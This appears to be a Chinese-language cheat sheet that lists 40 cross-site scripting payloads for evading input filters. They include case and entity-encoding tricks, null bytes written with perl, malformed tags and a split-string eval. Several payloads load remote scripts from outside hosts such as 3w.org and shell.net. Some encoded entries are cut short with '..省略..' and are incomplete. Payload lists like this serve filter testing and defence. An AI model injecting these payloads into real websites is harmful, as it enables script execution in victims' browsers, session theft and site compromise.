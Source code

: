 # xss payload


总结了常用的xss payload
<!--more-->

1.普通的XSS JavaScript注入

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

2.IMG标签XSS使用JavaScript命令

    <IMG SRC=1 ONERROR=alert('XSS')>

3.IMG标签无分号无引号

    <IMG SRC=javascript:alert('XSS')>

4.IMG标签大小写不敏感

    <IMG SRC=JaVaScRiPt:alert('XSS')>

5.HTML编码(必须有分号)

    <IMG SRC=javascript:alert("XSS")>

6.修正缺陷IMG标签

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>">

7.formCharCode标签(计算器)

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

8.UTF-8的Unicode编码(计算器)

    <IMG SRC=jav..省略..S')>

9.7位的UTF-8的Unicode编码是没有分号的(计算器)

    <IMG SRC=jav..省略..S')>

10.十六进制编码也是没有分号(计算器)

    <IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

11.嵌入式标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

12.嵌入式编码标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

13.嵌入式换行符

    <IMG SRC="jav ascript:alert('XSS');">

14.嵌入式回车

    <IMG SRC="jav ascript:alert('XSS');">

15.嵌入式多行注入JavaScript,这是XSS极端的例子

    <IMG SRC="javascript:alert('XSS')">

16.解决限制字符(要求同页面)

    <script>z='document.'</script>
    <script>z=z+'write("'</script>
    <script>z=z+'<script'</script>
    <script>z=z+' src=ht'</script>
    <script>z=z+'tp://ww'</script>
    <script>z=z+'w.shell'</script>
    <script>z=z+'.net/1.'</script>
    <script>z=z+'js></sc'</script>
    <script>z=z+'ript>")'</script>
    <script>eval_r(z)</script>

17.空字符

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

18.空字符2,空字符在国内基本没效果.因为没有地方可以利用

    perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

19.Spaces和meta前的IMG标签

    <IMG SRC=" javascript:alert('XSS');">

20.Non-alpha-non-digit XSS

    <SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

21.Non-alpha-non-digit XSS to 2

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

22.Non-alpha-non-digit XSS to 3

    <SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

23.双开括号

    <<SCRIPT>alert(a.sourse);//<</SCRIPT>

24.无结束脚本标记(仅火狐等浏览器)

    <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

25.无结束脚本标记

    <SCRIPT SRC=//3w.org/XSS/xss.js>

26.半开的HTML/JavaScript XSS

    <IMG SRC="javascript:alert('XSS')"

27.双开角括号

    <iframe src=http://3w.org/XSS.html >

28.无单引号、双引号、分号

    <SCRIPT>a=/XSS/ alert(a.source)</SCRIPT>

29.换码过滤的JavaScript

    \";alert('XSS');//

30.结束Title标签

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

31.Input Image

    <INPUT SRC="javascript:alert('XSS');">

32.BODY Image

    <BODY BACKGROUND="javascript:alert('XSS')">

33.BODY标签

    <BODY('XSS')>

34.IMG Dynsrc

    <IMG DYNSRC="javascript:alert('XSS')">

35.IMG Lowsrc

    <IMG LOWSRC="javascript:alert('XSS')">

36.BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

37.STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

38.远程样式表

    <LINK REL="stylesheet" HREF="http://3w.org/xss.css">

39.List-style-image(列表式)

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

40.IMG VBscript

    <IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS
